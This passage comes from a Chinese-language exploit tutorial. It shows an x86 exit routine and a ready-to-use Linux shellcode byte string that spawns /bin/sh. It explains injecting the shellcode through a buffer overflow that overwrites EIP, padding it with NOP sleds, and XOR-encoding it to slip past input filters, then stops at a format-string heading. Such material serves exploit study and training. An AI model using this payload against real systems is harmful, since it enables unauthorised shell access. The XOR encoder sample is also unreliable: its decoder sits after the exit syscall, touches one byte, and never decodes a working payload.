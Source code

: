 这里有一些用于退出程序的基本 shellcode：  
```
section .text
    global _start
_start:
    xor eax, eax          ; Clear EAX register
    mov al, 1             ; Syscall number for exit
    xor ebx, ebx          ; Exit status
    int 0x80              ; Interrupt to invoke syscall

```  
  
现在，让我们编写生成一个 shell 的 shellcode：  
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

```  
  
这个 shellcode 将在 Linux 机器上执行/bin/sh。一旦你有了你的 shellcode，你可以将其注入到一个像我们之前编写的易受攻击的程序中，并使用一个精心构造的缓冲区通过覆盖**EIP**来跳转到它。  
## 测试你的 Shellcode  
  
使用**GDB**，你可以测试你的 shellcode 是否正常工作。加载你的易受攻击程序，并仔细检查你的 shellcode 是如何被注入和执行的。一个典型的有效载荷结构包括**NOP 滑道**（\x90\x90...），它们填充缓冲区并确保**EIP**落在 shellcode 的某个位置。  
  
当将 shellcode 注入到易受攻击的程序中时，你经常会遇到输入过滤器，这些过滤器阻止某些字符的使用，例如**空字节**（\x00）或**换行符**（\x0a）。如果这些字符出现在 shellcode 中，它们可能会破坏你的 shellcode。为了绕过这些限制，我们使用**编码的 shellcode**。  
## 实践：编写编码的 Shellcode  
  
编码的 shellcode 将原始有效载荷转换为一种避免禁用字符的格式。你经常会看到**XOR 编码**用于此目的。以下是一个 XOR 编码的 shellcode 示例：  
```
section .text
    global _start
_start:
    xor eax, eax          ; Clear register
    mov al, 1             ; Syscall number for exit
    xor ebx, ebx          ; Exit status
    int 0x80              ; System call
encoder:
    xor byte [encoded_shellcode], 0xaa
    jmp encoder_end
encoded_shellcode:
    db 0xAA, 0x1A, 0xF0, 0xAC, 0x12  ; Encoded shellcode (example)
encoder_end:

```  
  
通过将 shellcode 与已知值（例如，0xaa）进行 XOR 运算，我们可以对有效载荷进行编码和解码，从而避免出现问题字节。这种方法有助于确保您的有效载荷即使在高度过滤的环境中也能正常工作。  
## 格式化字符串漏洞：利用格式错误的输入  
### 什么是格式化字符串漏洞？  
  